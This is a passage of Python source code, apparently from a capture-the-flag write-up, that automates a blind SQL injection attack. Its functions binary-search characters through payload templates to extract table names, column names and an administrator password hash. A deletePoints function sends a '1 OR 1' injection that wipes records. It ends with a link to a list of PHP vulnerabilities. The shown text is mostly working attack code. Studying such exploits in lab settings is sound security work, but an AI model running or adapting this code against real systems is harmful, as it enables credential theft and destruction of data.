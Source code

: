 ```python
	while (a < b):
		mid = (a+b)//2
		c = alphabet[mid]
		printInPlace(c)
		if tryPayload(payload
			.replace("@cORD@", str(ord(c)))
			.replace("@ID@", str(init_array[0]))
			): a = mid + 1
		else:
			b = mid
	return alphabet[a]


def findNames(payload, alphabet):
	for result_offset in range(0, 10):
		result = ""
		pl = payload.replace("@rOFFSET@", str(result_offset))
		for word_offset in range(1, 30):
			pl2 = pl.replace("@wOFFSET@", str(word_offset))
			c = findName(pl2, alphabet)
			if c == alphabet[0]: break
			print(c, end='', flush=True)
			result+=c
		print(" ")
		if len(result) <= 1: break
	return


def findTables():
	print ("..:: Searching for table names ::..")
	findNames(tables_payload, advancedAlphabet)

def findUserColumns():
	print ("..:: Searching for column names in user ::..")
	findNames(columns_user_payload, advancedAlphabet)

def findPointColumns():
	print ("..:: Searching for column names in point::..")
	findNames(columns_point_payload, advancedAlphabet)


def findAdminHash():
	print ("..:: Searching for Admin hash ::..")
	findNames(admin_hash_payload, HEXAlphabet)


def deletePoints():
	sendPayload("1 OR 1")
	exit(0)



fancy_console = True # Turn on fancy terminal output
sillent = True # Turn off debugging mode
logIn({'uname': 'writeup', 'pass': 'writeup'})


if isLogged():
	print("Sucessfully logged in")
else:
	exit("Unsuccessful login!")


```

[vulnerabilites]: <https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/version_id-164957/PHP-PHP-5.5.9.html>